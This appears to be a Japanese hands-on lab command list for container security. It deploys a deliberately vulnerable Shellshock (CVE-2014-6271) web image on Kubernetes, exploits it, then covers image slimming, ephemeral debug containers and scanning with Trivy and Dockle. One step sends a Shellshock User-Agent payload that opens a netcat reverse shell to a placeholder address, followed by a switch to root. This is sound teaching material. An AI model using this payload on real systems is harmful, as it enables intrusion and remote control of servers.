 # ケース1: コンテナの脆弱性を悪用されてしまった

`コンテナイメージのビルド（cve-2014-6271-apache-debian:buster）`
```bash
ls

docker build -t <Docker ID>/cve-2014-6271-apache-debian:buster .
```

`コンテナイメージのアップロード（cve-2014-6271-apache-debian:buster）`
```bash
docker push <Docker ID>/cve-2014-6271-apache-debian:buster
```

`コンテナイメージのビルド（sample-web:case1）`
```bash
ls

docker build -t <Docker ID>/sample-web:case1 .
```

`コンテナイメージのアップロード（sample-web:case1）`
```bash
docker push <Docker ID>/sample-web:case1
```

`PodとServiceのデプロイ`
```bash
kubectl apply -f sample-web.yaml
```

`minikube tunnelコマンドの実行`
```bash
minikube tunnel
```

`PodおよびServiceの状態確認`
```bash
kubectl get all -l app=sample-web
```

```bash
kubectl port-
forward -n security service/sample-web 30050:80
macで実施
ssh -L 30050:127.0.0.1:30050 naritomo@192.168.11.34

もしくは
kubectl port-forward --address 0.0.0.0 -n security service/sample-web 30050:80
```

`curlコマンドによるアクセス確認`
```bash
curl http://127.0.0.1:30050
curl http://192.168.11.34:30050
```

`ターミナル1: ncコマンドの実行`
```bash
nc -nvlp 5050
macの場合
nc -nl 5050
```

`ターミナル2: curlコマンドによる不正なリクエストの送信`
```bash
curl -H "user-agent: () { :; }; echo; /bin/nc -e /bin/bash <端末のIPアドレス> 5050" http://<EXTERNAL-IP>/cgi-bin/vulnerable
```

`ターミナル1: Podに含まれるコンテナへの侵入`
```bash
hostname

id
```

`ターミナル1: コンテナ内でのrootユーザーへの切り替え`
```bash
sudo su -

id
```

`ターミナル1: rootユーザー権限での操作`
```bash
cd /

touch test

ls /test

apt-get update

apt-get install -y curl

curl -h
```

`通常のhttpdとalpineベースのサイズ比較`
```bash
docker pull httpd:2.4.57

docker pull httpd:2.4.57-alpine

docker images httpd
```

`リストX.1.23. hello-worldコンテナの起動`
```bash
docker run --rm hello-world
```

`コンテナイメージのサイズ確認（マルチステージビルドなし）`
```bash
docker build -t <Docker ID>/sample-web:go-standard -f Dockerfile-standard .

docker images <Docker ID>/sample-web:go-standard
```

`コンテナイメージのサイズ確認（マルチステージビルドあり）`
```bash
docker build -t <Docker ID>/sample-web:go-multi -f Dockerfile-multi .

docker images <Docker ID>/sample-web:go-multi
```

`リポジトリへのコンテナイメージアップロード（sample-web-go）`
```bash
docker push <Docker ID>/sample-web:go-standard

docker push <Docker ID>/sample-web:go-multi
```

`Podのデプロイと確認`
```bash
kubectl apply -f sample-web-go-standard.yaml

kubectl apply -f sample-web-go-multi.yaml

kubectl get pods -l app=sample-web-go -n security
```

`sample-web-go-standardに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-standard  -n security -- /bin/bash

root@sample-web-go-standard:/go/src/app# ps aux

root@sample-web-go-standard:/go/src/app# exit
```

`sample-web-go-multiに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-multi  -n security -- /bin/bash
```

`エフェメラルコンテナの使用`
```bash
kubectl debug -it sample-web-go-multi -n security --image=busybox:1.28 --target=web

/ # ps aux

/ # ls /proc/1/root

/ # exit
```

`エフェメラルコンテナの状態確認`
```bash
kubectl describe pod sample-web-go-multi -n security
```


`Trivyのインストール`
```bash
curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sudo sh -s -- -b /usr/local/bin v0.50.1
```

`Trivyによるコンテナイメージのスキャン（2024年4月時点）`
```bash
trivy image <Docker ID>/sample-web:case1
```

`Dockleのインストール`
```bash
curl -LO https://github.com/goodwithtech/dockle/releases/download/v0.4.14/dockle_0.4.14_Linux-64bit.tar.gz

tar xvf dockle_0.4.14_Linux-64bit.tar.gz

chmod +x ./dockle

sudo mv ./dockle /usr/local/bin/dockle
```

`Dockleによるコンテナイメージのスキャン（2024年4月時点）`
```bash
dockle <Docker ID>/sample-web:case1
```

`検証に使用したリソースの削除`
```bash
kubectl delete pod sample-web \
    sample-web-go-standard \
    sample-web-go-multi

kubectl delete service sample-web
```